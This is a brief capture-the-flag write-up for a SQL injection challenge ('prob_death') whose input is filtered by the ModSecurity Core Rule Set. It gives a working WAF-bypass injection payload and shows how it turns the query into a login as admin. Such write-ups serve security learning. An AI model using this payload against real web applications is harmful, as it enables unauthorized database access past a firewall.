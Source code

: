 ```yaml
---
custom_edit_url: null
sidebar_position: 34
tags: [SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a437eb74-eff7-45be-bd3f-86e2c56d7dc3)

We are provided with the SQL query:

```sql
SELECT id FROM prob_death WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')
```

In this challenge as well, the Mod Security CRS is being used.

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/31d7abb4-4869-4388-8db4-c0c69df40d67)

However, we have to modify the payload slightly.

```
-1'<@=1 OR id LIKE 0x61646d696e OR '
```

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id LIKE 0x61646d696e OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_death WHERE id='-1'<@=1 OR id LIKE 0x61646d696e OR '' AND pw=md5('')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b1beb237-820e-4e76-a770-5468e73b2512)
